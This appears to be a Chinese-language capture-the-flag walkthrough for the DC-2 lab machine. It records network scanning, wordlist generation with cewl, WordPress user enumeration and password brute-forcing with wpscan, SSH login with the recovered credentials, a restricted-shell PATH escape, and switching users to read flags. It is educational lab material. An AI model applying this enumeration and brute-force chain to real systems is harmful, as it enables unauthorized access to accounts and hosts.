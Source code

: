 ### 扫描地址
```zsh
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
[sudo] password for kali:
Interface: eth0, type: EN10MB, MAC: 00:0c:29:ae:51:81, IPv4: 192.168.7.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.7.1     00:50:56:c0:00:08       (Unknown)
192.168.7.2     00:50:56:e4:2a:ab       (Unknown)
192.168.7.129   00:0c:29:9e:63:89       (Unknown)
192.168.7.254   00:50:56:e7:52:95       (Unknown)
```

### 得到地址后

```zsh
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.7.129 -p 1-65535
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-05 09:19 EDT
Nmap scan report for 192.168.7.129
Host is up (0.00070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 00:0C:29:9E:63:89 (VMware)
```

`80`端口发生``302``跳转 http://dc-2/
手动`hosts`添加后进入web
提示可以使用[[cewl]]
`7744` 不知道是啥
丢进浏览器也不是web

[[cewl]]是一个字典生成器，它从指定url读取字符串

```zsh
cewl http://dc-2/ >> 11.txt
```

### [[dirsearch]]

```zsh
dirsearch -u http://dc-2/
dirsearch -u 192.168.7.129
```

看到了wp

### 使用[[wpscan]]

### 枚举用户

```zsh
wpscan --url http://dc-2/ -e u
```

##### 几个用户名建txt丢进去

```
admin
jerry
tom
```

### 与[[cewl]]得到的字典组合

```zsh
wpscan --url http://dc-2/ -U user.txt -P 11.txt
```

```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

```
http://dc-2/wp-admin
```
### 登录后可以看到flag2


### 使用ssh登录tom

```zsh
ssh tom@192.168.7.129 -p 7744
```

### 添加PATH使用更多命令

```zsh
export PATH=/bin:$PATH
```

### 由此查看flag3

```zsh
tom@DC-2:~$ su jerry
jerry@DC-2:~$ ls
flag4.txt
```

### 得到flag4

```zsh
jerry@DC-2:~$ cat flag4.txt
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```